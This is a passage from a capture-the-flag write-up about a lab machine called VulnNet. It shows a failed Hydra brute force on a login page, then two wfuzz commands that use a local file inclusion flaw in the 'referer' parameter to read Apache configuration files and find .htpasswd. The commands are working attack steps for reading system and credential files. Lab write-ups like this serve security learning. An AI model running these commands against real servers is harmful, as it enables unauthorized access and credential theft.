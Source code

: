 Appending the braodcast sub domain to our `/etc/hosts` file we then browse to the new domain and are prompted for credentials.

![](<../../../.gitbook/assets/image (32).png>)

Brute forcing the login page with the server-management user and Hydra provided unsuccessful. Likewise, admin and root did not work either.&#x20;

Back to enumeration...

### Further Enumeration

Building on further from the LFI vulnerability discovered by ZAP earlier we start fuzzing for further files. We get a valid hit on `/etc/apache2`.

```
wfuzz -u "http://vulnnet.thm/index.php?referer=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt --hl 141 -R 2 
```

![](<../../../.gitbook/assets/image (2097).png>)

Fuzzing for further files within the `/etc/apache2` directory we soon get a hit for .`htapasswd`.

```
wfuzz -u "http://vulnnet.thm/index.php?referer=/etc/apache2/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt --hl 141 -R 2 
```
